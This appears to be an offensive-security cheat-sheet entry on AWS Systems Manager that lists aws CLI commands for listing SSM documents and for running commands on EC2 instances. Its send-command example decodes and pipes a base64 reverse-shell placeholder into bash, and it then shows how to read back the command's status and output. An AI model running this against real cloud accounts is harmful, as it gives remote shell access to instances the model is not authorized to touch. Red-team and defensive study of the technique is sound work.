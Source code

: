 # Systems Manager (SSM)

SSM provides a centralised platform for configuring, managing, and maintaining servers and applications in your AWS environment.

- `aws ssm list-documents --region <region>`: List documents
- `aws ssm send-command --document-name <name> --instance-ids <ec2_instance_id> --parameters '{"commands": ["echo <base64_revshell> | base64 -d | bash"]}' --output text`: Send command to EC2 instance
    - We note the `CommandId`
    - After, we list all commands: `aws ssm list-commands`, and we can see the status of our command (e.g. `Success`)
    - We can see the command output via `aws ssm get-command-invocation --command-id <command-id> --instance-id <instance-id>`
        - Alternatively, we can also run `aws ssm list-command-invocations --command-id <command-id> --instance-id <instance-id> --details`
    